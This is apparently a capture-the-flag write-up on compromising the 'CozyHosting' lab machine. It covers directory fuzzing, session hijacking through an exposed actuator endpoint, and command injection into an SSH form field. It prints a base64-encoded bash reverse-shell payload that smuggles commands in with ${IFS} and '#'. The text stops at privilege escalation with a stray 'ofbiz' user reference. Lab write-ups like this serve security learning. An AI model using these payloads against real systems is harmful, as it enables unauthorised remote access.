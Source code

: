 # Write Up
## Introduction
Before starting to present the way it has been taken to solve CozyHosting machine, I will present an outline with the concepts that will be used to solve challenge:
- Exhaustive enumeration of the website.
- Session Hijacking.
- Command injection.
- Hash cracking with Hascat.
- Abuse of ssh SUID configuration.
## Reconnaisance phase
As usual, reconnaissance phase was the first phase executed due to the fact that a hacker needs to know as much information about his target as possible before starting to exploit posible vulnerabilities.

To do this, you need to add a new line in the ''/etc/hosts'' file, where you define which IP is linked to which domain name. As shown in the following image, if you want to access CozyHosting.htb, you are going to send a request to 10.10.11.230 really:

[![hosts.png](https://i.postimg.cc/x1P6MnhB/hosts.png)](https://postimg.cc/WdhmPL27)

Next, Nmap is used to scan all ports on the server. The tool output is as follows:

[![Nmap.png](https://i.postimg.cc/5yRVx8qq/Nmap.png)](https://postimg.cc/GTGNK8fH)

As shown in the last image, two open ports were discovered exposing two different services:
- Port 22: SSH service.
- Port 80: HTTP service.

Due to the fairly up-to-date version of SSH, it seems that the way to go is to perform a technology scan on port 80.

[![WhatWeb.png](https://i.postimg.cc/prjXB6k4/WhatWeb.png)](https://postimg.cc/649XWzkf)

As you can see, nginx 1.18.0 is running behind, but no important information is displayed. Therefore, the website was accessed to look for some useful information:

[![image.png](https://i.postimg.cc/xqr7KsFs/image.png)](https://postimg.cc/y3PvKTK9)

After searching for information, the only data retrieved is the login panel behind the path "/login". So a search was initiated using Wfuzz to list more paths and resources on the server.

```bash
wfuzz -c -t 200 --hc 404,400 --hh 0 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://CozyHosting.htb/FUZZ 
```

The following diagram represents the paths and resources found:

[![diagrama.png](https://i.postimg.cc/fRT8Ft0W/diagrama.png)](https://postimg.cc/svqPG2cb)

After finding these resources on the web, you can test some potential vulnerabilities, for example by bypassing the login panel with a SQLi or Type Juggling, etc. ..... But nothing worked.
If you find yourself in this situation and you have tested all possible vulnerabilities, it is likely that you have not done a thorough reconnaissance.  Therefore, Wfuzz was ran again with another dictionary:

```bash
wfuzz -c -t 200 --hc 404,400 --hh 0 -w /usr/share/SecLists/Discovery/Web-Content/combined_directories.txt http://CozyHosting.htb/FUZZ
```

With that dictionary, another route called "actuator" was found, if you go into it you will find more paths, as shown behind:

[![image.png](https://i.postimg.cc/DfgtjbC0/image.png)](https://postimg.cc/SjnTjjbb)
## Exploitation phase

A session ID can be found in the path "sessions". With this session ID under control it is possible to perform a session hijacking. So it was copied and pasted into the cookie that the website assigned to me.

Now, if you enter the login panel, the website redirects you directly to the administration section:

[![Admin.png](https://i.postimg.cc/90pLFS8T/Admin.png)](https://postimg.cc/XBrfs207)

Within the administration section there is only one function to exploit. Apparently, this function runs a shell command to connect via ssh to other machines, with a private key, to update their installed software. This command might be something like the following:

```bash
ssh -i id_rsa.pem <username>@<hostname>
```

Since the page is running a shell command upon receiving the request, it is likely vulnerable to command execution. Therefore, a payload "; whoami" was injected into both fields. First in the hostname field:

[![Burp2.png](https://i.postimg.cc/QNmwSS1B/Burp2.png)](https://postimg.cc/F1fTHyPm)

As you can see, this injection did not work on the hostname field, so you will probably have to enter a correct hostname. The second field was tested by entering the same payload to see the response:

[![Burp3.png](https://i.postimg.cc/QNky6SGL/Burp3.png)](https://postimg.cc/Th101V3Q)

In this case, another error is reported. As the web page tells us not to use whitespace, an Internal Field Separator was injected to see the response from the web page:

[![Burp4.png](https://i.postimg.cc/k4Mj66wV/Burp4.png)](https://postimg.cc/R38120k9)

The error changed, so the payload was injected and we are informed that the command "whoami@10.10.11.230" does not exist. So, the payload works because I am avoiding the ssh command and the whitespace was interpreted by the shell.
Now, this error can be fixed by injecting a # to comment out the rest of the command that I do not want.

[![image.png](https://i.postimg.cc/kMYbd6bj/image.png)](https://postimg.cc/vD9BrmX9)

The injected command did not return any results. But this doesn't mean that the command injection didn't work, because the web page is probably not showing the response. So why not create a server and inject a request to my server?

[![Burp6.png](https://i.postimg.cc/zfSVV3PR/Burp6.png)](https://postimg.cc/jW2s1qTs)

As you can see, this works so I am injecting shell commands into the server. It is time to create a reverse shell and get access to the server. The payload used was:

```
host=10.10.11.230&username=%3b${IFS}echo${IFS}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMC85OTk5IDA%2bJjEK"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash%3b${IFS}%23
```

The reverse shell was encoded with the base64 algorithm to avoid problems when sending it through a request. And the entire payload was urlencoded for the same reason.

[![Evidencia.png](https://i.postimg.cc/7L8bXSTR/Evidencia.png)](https://postimg.cc/K1fZ8kf7)
## Post-Exploitation phase
### Privilege escalation to Josh

After gaining access to the ofbiz user, it is time to recognise the system. But nothing was found.
